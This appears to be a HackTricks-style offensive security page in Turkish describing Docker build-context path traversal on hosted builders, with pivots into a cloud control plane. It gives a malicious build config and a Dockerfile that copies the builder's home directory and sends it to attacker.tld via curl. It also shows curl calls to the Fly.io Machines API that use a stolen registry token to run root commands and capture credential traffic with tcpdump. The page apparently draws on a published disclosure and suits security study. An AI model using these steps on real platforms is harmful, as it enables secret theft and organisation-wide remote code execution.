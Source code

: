# Docker Build Context'in Hosted Builders'da Kötüye Kullanımı (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

Eğer bir CI/CD platformu veya hosted builder katkıda bulunanların Docker build context yolunu ve Dockerfile yolunu belirtmesine izin veriyorsa, genellikle context'i üst dizine (ör. "..") ayarlayarak host dosyalarını build context'in bir parçası haline getirebilirsiniz. Ardından, saldırgan kontrollü bir Dockerfile, builder kullanıcısının home'unda bulunan sırları COPY ile exfiltrate edebilir (ör. ~/.docker/config.json). Çalınan registry token'ları provider'ın control-plane APIs'ine karşı da çalışabilir ve org-genel RCE'ye olanak sağlayabilir.

## Saldırı yüzeyi

Pek çok hosted builder/registry servisi, kullanıcı tarafından gönderilen image'ları build ederken kabaca şunları yapar:
- Repo-level bir config'i okur; bu config şunları içerir:
  - build context path (Docker daemon'a gönderilir)
  - Dockerfile path bu context'e göre göreceli olarak
- Belirtilen build context dizinini ve Dockerfile'ı Docker daemon'a kopyalar
- Image'ı build eder ve hosted service olarak çalıştırır

Eğer platform build context'i canonicalize edip kısıtlamazsa, bir kullanıcı context'i repository dışındaki bir konuma (path traversal) ayarlayabilir; bu durumda build kullanıcısı tarafından okunabilir herhangi bir host dosyası build context'in bir parçası olur ve Dockerfile içinde COPY ile erişilebilir hale gelir.

Sık gözlemlenen pratik kısıtlamalar:
- Dockerfile seçilen context path içinde bulunmalı ve yolu önceden biliniyor olmalıdır.
- Build kullanıcısının context'e dahil edilen dosyaları okuma izni olmalıdır; özel device dosyaları kopyayı bozabilir.

## PoC: Path traversal via Docker build context

Example malicious server config declaring a Dockerfile within the parent directory context:
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
Notlar:
- ".." kullanımı çoğunlukla builder kullanıcısının home dizinine (ör. /home/builder) çözülür; bu dizin genellikle hassas dosyalar içerir.
- Dockerfile'ınızı repo'nun dizin adı altında yerleştirin (ör. repo "test" → test/Dockerfile) böylece genişletilmiş parent context içinde kalır.

## PoC: host context'i ingest edip exfiltrate eden Dockerfile
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
Genellikle $HOME'den kurtarılan hedefler:
- ~/.docker/config.json (registry auths/tokens)
- Diğer cloud/CLI önbellekleri ve yapılandırmalar (ör. ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

İpucu: Depoda .dockerignore olsa bile, zayıf platform-tarafı context seçimi daemon'a ne gönderileceğini hâlâ belirler. Platform, seçilen yolu repo'nuzun .dockerignore dosyasını değerlendirmeden önce daemon'a kopyalarsa, host dosyaları hâlâ açığa çıkabilir.

## Aşırı ayrıcalıklı token'larla cloud pivot (örnek: Fly.io Machines API)

Bazı platformlar container registry ve control-plane API için kullanılabilen tek bir bearer token verir. Eğer bir registry token'ını exfiltrate ederseniz, sağlayıcı API'sine karşı deneyin.

~/.docker/config.json içindeki çalınmış token kullanılarak Fly.io Machines API'ye örnek API çağrıları:

Bir organizasyondaki uygulamaları listele:
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
Bir uygulamanın herhangi bir makinesinde root olarak bir komut çalıştır:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
Sonuç: token yeterli ayrıcalıklara sahipse tüm barındırılan uygulamalarda organizasyon çapında remote code execution.

## İhlal edilmiş barındırılan servislerden gizli verilerin çalınması

Barındırılan sunucularda exec/RCE ile müşteri tarafından sağlanan gizli bilgileri (API keys, tokens) toplayabilir veya prompt-injection attacks düzenleyebilirsiniz. Örnek: tcpdump kurun ve port 8080'deki HTTP trafiğini yakalayarak gelen kimlik bilgilerini çıkarın.
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
Yakalanan istekler genellikle headers, bodies veya query params içinde istemci kimlik bilgileri içerir.

## References

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
